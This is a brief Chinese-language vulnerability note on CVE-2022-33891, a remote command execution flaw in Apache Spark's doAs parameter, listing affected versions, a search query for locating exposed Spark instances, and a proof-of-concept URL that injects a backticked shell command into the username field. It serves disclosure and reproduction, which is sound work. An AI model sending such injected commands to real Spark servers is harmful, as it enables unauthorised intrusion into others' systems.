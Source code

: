 # Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE

## 漏洞影响

```
Spark Core - Apache <=3.0.3
3.1.1 <= Spark Core - Apache <=3.1.2
3.2.0 <= Spark Core - Apache <=3.2.1
```

## 网络测绘

```
app="APACHE-Spark"
```

## 漏洞复现

主页面

![image-20220909104326093](images/202209091043173.png)

验证POC

```
/jobs/?doAs=`touch /tmp/test.txt`
```

![image-20220909104423065](images/202209091044113.png)